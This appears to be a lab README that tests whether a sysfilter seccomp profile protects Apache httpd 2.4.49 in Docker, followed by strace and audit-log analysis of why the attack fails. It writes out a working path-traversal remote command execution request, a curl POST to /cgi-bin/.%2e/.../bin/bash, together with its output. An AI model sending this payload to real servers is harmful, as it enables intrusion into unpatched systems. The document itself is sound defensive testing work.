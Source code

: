 ## Apache httpd – sysfilter

./build.sh
docker compose up -d

### Preparation

_Extract the syscalls from the binary `httpd` into `/tmp/app.json`_
`docker exec -it http-sysfilter-seccomp-container bash -c "/sysfilter/extraction/app/sysfilter_extract /opt/apache/bin/httpd -o /tmp/app.json"`

_Enforce the allowed syscalls for the binary `httpd`_
`docker exec -it http-sysfilter-seccomp-container bash -c "/sysfilter/enforcement/sysfilter_enforce /opt/apache/bin/httpd /tmp/app.json"`

_Start the two container, one with the applied seccomp profile and one without:_
`docker exec -it http-sysfilter-normal-container "/opt/apache/bin/httpd"`
`docker exec -it http-sysfilter-seccomp-container "/opt/apache/bin/httpd"`

### Conduct the exploits

First, we verify the IP addresses of the container, to ensure we target the right containers:

```
❯ docker ps
CONTAINER ID   IMAGE                    COMMAND   CREATED         STATUS         PORTS                                     NAMES
9065cb90a62b   http-sysfilter-seccomp   "bash"    8 minutes ago   Up 8 minutes   0.0.0.0:8080->80/tcp, [::]:8080->80/tcp   http-sysfilter-seccomp-container
4e1fa8b2fe0f   http-sysfilter-normal    "bash"    8 minutes ago   Up 8 minutes   0.0.0.0:8081->80/tcp, [::]:8081->80/tcp   http-sysfilter-normal-container
```

Note: The attacks are executed from the host machine.

_Seccomp_
The attack on the container with the applied seccomp profile on the binary fails.

```
❯ curl -v 'http://localhost:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; id'  -H "Content-Type: text/plain"
* Host localhost:8080 was resolved.
* IPv6: ::1
* IPv4: 127.0.0.1
*   Trying [::1]:8080...
* Connected to localhost (::1) port 8080
* using HTTP/1.x
> POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash HTTP/1.1
> Host: localhost:8080
> User-Agent: curl/8.12.1
> Accept: */*
> Content-Type: text/plain
> Content-Length: 39
>
* upload completely sent off: 39 bytes
< HTTP/1.1 503 Service Unavailable
< Date: Tue, 01 Apr 2025 12:54:51 GMT
< Server: Apache/2.4.49 (Unix)
< Content-Length: 299
< Connection: close
< Content-Type: text/html; charset=iso-8859-1
<
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>503 Service Unavailable</title>
</head><body>
<h1>Service Unavailable</h1>
<p>The server is temporarily unable to service your
request due to maintenance downtime or capacity
problems. Please try again later.</p>
</body></html>
* shutting down connection #0
```

_Normal_
The attack on the container without the seccomp profile succeeds. We are able to run arbitrary commands:

```
❯ curl -v 'http://localhost:8081/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; id'  -H "Content-Type: text/plain"
* Host localhost:8081 was resolved.
* IPv6: ::1
* IPv4: 127.0.0.1
*   Trying [::1]:8081...
* Connected to localhost (::1) port 8081
* using HTTP/1.x
> POST /cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash HTTP/1.1
> Host: localhost:8081
> User-Agent: curl/8.12.1
> Accept: */*
> Content-Type: text/plain
> Content-Length: 39
>
* upload completely sent off: 39 bytes
< HTTP/1.1 200 OK
< Date: Tue, 01 Apr 2025 12:55:19 GMT
< Server: Apache/2.4.49 (Unix)
< Transfer-Encoding: chunked
< Content-Type: text/plain
<
uid=1(daemon) gid=1(daemon) groups=1(daemon)
* Connection #0 to host localhost left intact
```

### Analysis

As the exploit worked on the container without the seccomp profile, only the one with the enforced profile will be analysed.

_strace output:_
When starting the container with the command `strace -f /opt/apache/bin/httpd` we are able to see that just before the process with the pid `1396` was killed with the signal `SIGSYS`, the system call `umask` was executed.

```

[pid  1370] --- SIGCHLD {si_signo=SIGCHLD, si_code=CLD_DUMPED, si_pid=1395, si_uid=0, si_status=SIGSYS, si_utime=0, si_stime=0} ---
[pid  1370] select(0, NULL, NULL, NULL, {tv_sec=0, tv_usec=905251}) = 0 (Timeout)
[pid  1370] wait4(-1, [{WIFSIGNALED(s) && WTERMSIG(s) == SIGSYS && WCOREDUMP(s)}], WNOHANG|WSTOPPED, NULL) = 1395
[pid  1370] times({tms_utime=0, tms_stime=1, tms_cutime=0, tms_cstime=2}) = 432003466
[pid  1370] getpid()                    = 1370
[pid  1370] write(2, "[Tue Apr 01 13:54:57.103092 2025"..., 170) = 170
[pid  1370] kill(1395, SIGHUP)          = -1 ESRCH (No such process)
[pid  1370] unlink("/opt/apache/logs/cgisock.1370") = -1 ENOENT (No such file or directory)
[pid  1370] getpid()                    = 1370
[pid  1370] write(2, "[Tue Apr 01 13:54:57.103234 2025"..., 124) = 124
[pid  1370] clone(strace: Process 1396 attached
child_stack=NULL, flags=CLONE_CHILD_CLEARTID|CLONE_CHILD_SETTID|SIGCHLD, child_tidptr=0x7547097e55d0) = 1396
[pid  1396] set_robust_list(0x7547097e55e0, 24) = 0
[pid  1370] wait4(-1, 0x7ffd3bdc1e0c, WNOHANG|WSTOPPED, NULL) = 0
[pid  1370] times( <unfinished ...>
[pid  1396] mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0 <unfinished ...>
[pid  1370] <... times resumed> {tms_utime=0, tms_stime=1, tms_cutime=0, tms_cstime=2}) = 432003466
[pid  1396] <... mmap resumed> )        = 0x75470977b000
[pid  1370] select(0, NULL, NULL, NULL, {tv_sec=1, tv_usec=0} <unfinished ...>
[pid  1396] rt_sigaction(SIGCHLD, {sa_handler=SIG_IGN, sa_mask=[], sa_flags=SA_RESTORER|SA_INTERRUPT, sa_restorer=0x754708aec980}, {sa_handler=SIG_DFL, sa_mask=[], sa_flags=0}, 8) = 0
[pid  1396] rt_sigaction(SIGHUP, {sa_handler=0x75470560a368, sa_mask=[], sa_flags=SA_RESTORER|SA_INTERRUPT, sa_restorer=0x754708aec980}, {sa_handler=0x61b0e04a833d, sa_mask=[], sa_flags=SA_RESTORER, sa_restorer=0x754708aec980}, 8) = 0
[pid  1396] close(3)                    = 0
[pid  1396] mmap(NULL, 8192, PROT_READ|PROT_WRITE, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x754709779000
[pid  1396] socket(AF_UNIX, SOCK_STREAM, 0) = 3
[pid  1396] umask(077)                  = 0137
[pid  1396] +++ killed by SIGSYS (core dumped) +++
```

Further analysis on the host machine with the tool `ausearch` delievers us more insights.
As we can see, the syscall with the number 95 was indeed blocked by seccomp

```
❯ sudo ausearch -m seccomp --start today
time->Thu Apr  3 11:33:18 2025
type=SECCOMP msg=audit(1743672798.369:1358): auid=4294967295 uid=0 gid=0 ses=4294967295 pid=27571 comm="httpd" exe="/opt/apache/bin/httpd" sig=31 arch=c000003e syscall=95 compat=0 ip=0x7e38d7f2fa67 code=0x0
----
time->Thu Apr  3 11:33:19 2025
type=SECCOMP msg=audit(1743672799.370:1368): auid=4294967295 uid=0 gid=0 ses=4294967295 pid=27598 comm="httpd" exe="/opt/apache/bin/httpd" sig=31 arch=c000003e syscall=95 compat=0 ip=0x7e38d7f2fa67 code=0x0
----
time->Thu Apr  3 11:33:20 2025
type=SECCOMP msg=audit(1743672800.371:1378): auid=4294967295 uid=0 gid=0 ses=4294967295 pid=27608 comm="httpd" exe="/opt/apache/bin/httpd" sig=31 arch=c000003e syscall=95 compat=0 ip=0x7e38d7f2fa67 code=0x0
----
time->Thu Apr  3 11:33:21 2025
type=SECCOMP msg=audit(1743672801.373:1388): auid=4294967295 uid=0 gid=0 ses=4294967295 pid=27616 comm="httpd" exe="/opt/apache/bin/httpd" sig=31 arch=c000003e syscall=95 compat=0 ip=0x7e38d7f2fa67 code=0x0
----
time->Thu Apr  3 11:33:22 2025
type=SECCOMP msg=audit(1743672802.374:1398): auid=4294967295 uid=0 gid=0 ses=4294967295 pid=27624 comm="httpd" exe="/opt/apache/bin/httpd" sig=31 arch=c000003e syscall=95 compat=0 ip=0x7e38d7f2fa67 code=0x0
----
time->Thu Apr  3 11:33:23 2025
type=SECCOMP msg=audit(1743672803.376:1408): auid=4294967295 uid=0 gid=0 ses=4294967295 pid=27635 comm="httpd" exe="/opt/apache/bin/httpd" sig=31 arch=c000003e syscall=95 compat=0 ip=0x7e38d7f2fa67 code=0x0
```

We verify that the system call number `95` maps to `umask` with the `ausyscall` tool:

```
❯ ausyscall --dump | grep 95
95	umask
```

The last thing we check is, if the system call number `95` was in the applied seccomp profile. The file `/tmp/app.json` shows no presence:

```
[0,1,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,19,20,21,22,23,24,25,28,29,30,31,32,33,34,35,39,40,41,42,43,44,45,46,47,48,49,50,51,52,54,56,58,59,60,61,62,63,64,65,66,67,72,73,78,79,80,82,83,86,87,90,93,96,99,100,102,104,105,106,107,108,111,112,113,114,115,116,117,119,121,128,137,143,144,145,146,147,186,201,202,203,218,228,229,231,232,233,234,257,262,273,288,291,292,302,307]
```

### NOTES

- it was not tested, if it was possible to modify the exploit to bypass the usage of the syscall 95 (umask)
- TODO: maybe try more commands
